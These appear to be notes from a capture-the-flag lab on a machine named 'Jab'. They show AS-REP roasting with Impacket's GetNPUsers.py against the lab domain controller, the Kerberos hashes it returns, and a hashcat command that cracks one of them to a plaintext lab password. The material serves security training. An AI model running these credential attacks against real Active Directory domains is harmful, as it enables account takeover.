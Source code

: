 ![[Pasted image 20250211140425.png]]
![[Pasted image 20250211140733.png]]

-there is a lot of users
-its not copyable
-we can set proxy
-jmontgomery
-lbradford
-mlowe
```bash
┌──(pwn㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 GetNPUsers.py jab.htb/ -usersfile /home/pwn/jab/user.txt  -format hashcat -dc-ip 10.10.11.4 -dc-host dc01.jab.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$jmontgomery@JAB.HTB:d7f4e32f5503df46d963f7c730162254$3b326527b28ec8aa60d27703939b5ba3c427de067f39fd67ff7cd137d7339ac2967ecdcd1826104cd07db63f7d4093ea61c8af520288fda767f09381b3d680a50f8a4f59fcc665ddd4c883bfcf3b2dd661882807ac146bd0196b9e4790b2598c09ce0d8115e8ea790632bae035e4e1c61c809e26395f524cf55771c3c2737b7e1a2c1f60dee29b8b6daca45c4119057f737b38cdf3e92100224991b11a7a9a2498438a4ce1786fa9b263f93e1d8963e7a34e8733350866557b2c8f0c81296ed2b014d9fc00a64741c349f8de2c28400e0379f0b674da9c75c59110c8adb9ebaa93ed
$krb5asrep$23$lbradford@JAB.HTB:ebf6d382ad412c6fb6361cc08852e6da$8e01130db1083e6aa175e1b7414c653f01d5bff6b4c7361541e16473cc6dc75d40a60d46bbc5c8458e36a8e5abd4e51fc9c7d99a84857f4984facf5433377f9d4c79e728e96deb5fe5ccf809b4e980dbdd50dfec16daf1ae386498458697568ddac9d9bcafaa44e6e5a65a0abdae747f2c449b04b16c8eb5cd9b68f096339b8e8d1249c293c96f8f74603cc09f437432dccfec6b03ae044043d517c571283744dc806f5f2aae0ffd3ca8d1fc1f60c06abd88e273232763dc2afa7aa11bb8db0fc6efff519f3b0c4b53110528781da9ac0bf5de451945f9eb10cea6e8ee8b70633b7c
$krb5asrep$23$mlowe@JAB.HTB:1f71f379734c6d477b5538f801414ebe$22dbfc300b2b38f221dc0a1cae6e205c276645a992efc233a4eb60f91495540ddaea3203d22238cff95e97aec36c8fe1d1487c84506ed41636d172b3a937879f0d9b99d0c2c1b5b2327ffa6ee32fe4e12f1ebaa9a139fdfb0b8622cd151b99bab864972260356e1cc99a0ef40a02ad1af27bb8c8b88a5823e7e4a0448d3fc46ad07d6cd1ad98394f3d8f42b8df22a2e994a3357d05940df5efe0c87e535a9386bd13df3d3696ff5e8a457297f114f398c3b3ec73a9218ae2e796030c519c5641e8397dec8ee14bf807034503b2d18f6f03dd4c820aebbdcf788ce394a748540b7224

```
- This hash is from **an AS-REP response** from the **Domain Controller (DC)**.
- The hash is encrypted using the user's **NT hash (derived from their password)**.
- By cracking it, we are essentially **recovering the user's plaintext password**

```bash
hashcat -m 18200 asrep_hash.txt /path/to/wordlist.txt --force

$krb5asrep$23$jmontgomery@JAB.HTB:d7f4e32f5503df46d963f7c730162254$3b326527b28ec8aa60d27703939b5ba3c427de067f39fd67ff7cd137d7339ac2967ecdcd1826104cd07db63f7d4093ea61c8af520288fda767f09381b3d680a50f8a4f59fcc665ddd4c883bfcf3b2dd661882807ac146bd0196b9e4790b2598c09ce0d8115e8ea790632bae035e4e1c61c809e26395f524cf55771c3c2737b7e1a2c1f60dee29b8b6daca45c4119057f737b38cdf3e92100224991b11a7a9a2498438a4ce1786fa9b263f93e1d8963e7a34e8733350866557b2c8f0c81296ed2b014d9fc00a64741c349f8de2c28400e0379f0b674da9c75c59110c8adb9ebaa93ed:Midnight_121

jmontgomery
Midnight_121
```
